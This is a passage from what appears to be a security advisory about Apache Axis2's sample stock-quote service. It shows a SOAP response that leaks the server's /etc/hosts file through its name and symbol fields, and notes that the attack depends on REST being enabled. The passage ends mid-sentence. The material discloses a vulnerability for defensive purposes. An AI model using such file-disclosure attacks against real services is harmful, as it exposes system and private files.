 [^3]: http://localhost:8080/axis2/services/SimpleStockQuoteService

~~~ markup
<ns:getQuoteResponse xmlns:ns="http://services.samples">
   <ns:return xsi:type="ax21:GetQuoteResponse"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xmlns:ax21="http://services.samples/xsd">
      <ax21:change>3.9659262974249048</ax21:change>
      <ax21:earnings>12.755839004148722</ax21:earnings>
      <ax21:high>-157.5738168969912</ax21:high>
      <ax21:last>157.71363587000337</ax21:last>
      <ax21:lastTradeTimestamp>
         Sun May 16 14:25:19 CEST 2010
      </ax21:lastTradeTimestamp>
      <ax21:low>164.30154930689852</ax21:low>
      <ax21:marketCap>-4192110.249723876</ax21:marketCap>
      <ax21:name>##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1   localhost
255.255.255.255 broadcasthost
::1             localhost 
fe80::1%lo0 localhost
 Company</ax21:name>
      <ax21:open>-154.31609570318096</ax21:open>
      <ax21:peRatio>23.935652759459877</ax21:peRatio>
      <ax21:percentageChange>2.204736746512539</ax21:percentageChange>
      <ax21:prevClose>179.88207905992505</ax21:prevClose>
      <ax21:symbol>##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1   localhost
255.255.255.255 broadcasthost
::1             localhost 
fe80::1%lo0 localhost</ax21:symbol>
      <ax21:volume>7235</ax21:volume>
   </ns:return>
</ns:getQuoteResponse>
~~~

As can be seen, the response includes the full content of the
`/etc/hosts` file. While this leverages a particular
feature of the SimpleStockQuoteService, it is expected that a similar
attack can be performed with many real world services.

It should also be noted that this attack only works if the
`disableREST` parameter (see `axis2.xml`)
is set to `false`. If REST is disabled, the attack is no
longer possible and the response from the service will be as follows:
